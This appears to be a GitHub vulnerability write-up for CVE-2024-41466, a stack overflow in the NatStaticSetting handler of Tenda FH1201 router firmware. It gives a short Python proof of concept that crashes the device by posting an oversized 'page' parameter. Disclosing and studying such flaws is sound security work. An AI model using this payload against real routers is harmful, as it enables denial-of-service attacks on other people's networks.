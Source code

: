 # NatStaticSetting

Firmware download website:https://www.tendacn.com/download/detail-3322.html

### CVE number

CVE-2024-41466

### Vulnerability details

Tenda FH1201 v1.2.0.14 has a stack overflow vulnerability located in the NatStaticSetting function.The parameter page is copied to stackspace v6 via the sprintf function without checking the length,so an attacker can cause a denial of service attack by controlling the page parameter

![image-20240724100955109](./image-20240724100955109.png)





### poc

```python
import requests

ip = '192.168.74.145'



url = f"http://{ip}/goform/NatStaticSetting"

data = {"page":b'a'*999}

ret = requests.post(url, data)
```

![image-20240724101133997](./image-20240724101133997.png)
